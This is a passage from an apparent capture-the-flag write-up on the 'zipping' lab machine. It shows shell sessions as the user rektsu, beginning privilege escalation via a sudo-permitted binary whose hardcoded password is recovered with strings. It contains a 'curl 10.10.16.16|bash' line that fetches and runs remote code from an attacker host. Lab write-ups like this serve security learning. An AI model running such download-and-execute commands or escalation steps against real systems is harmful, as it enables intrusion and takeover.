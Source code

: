 ```bash
rektsu@zipping:/var/www/html/shop$ curl 10.10.16.16|bash&
[9] 2122
```

### SUDO - so injection


#### Find hijackable shared object

```bash
rektsu@zipping:/var/www/html/shop$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

```bash
rektsu@zipping:/var/www/html/shop$ file /usr/bin/stock
/usr/bin/stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42, for GNU/Linux 3.2.0, not stripped
```

```bash
rektsu@zipping:/var/www/html/shop$ sudo /usr/bin/stock
Enter the password: *
Invalid password, please try again.
```

Get password

```bash
rektsu@zipping:/var/www/html/shop$ strings /usr/bin/stock
```

![](/assets/obsidian/303f9470fadcb62c8986b0f7a5c5bfd1.png)

Played around a bit in the application, didn't find any abuseable functions

```bash
rektsu@zipping:/var/www/html/shop$ sudo /usr/bin/stock
Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option:
```
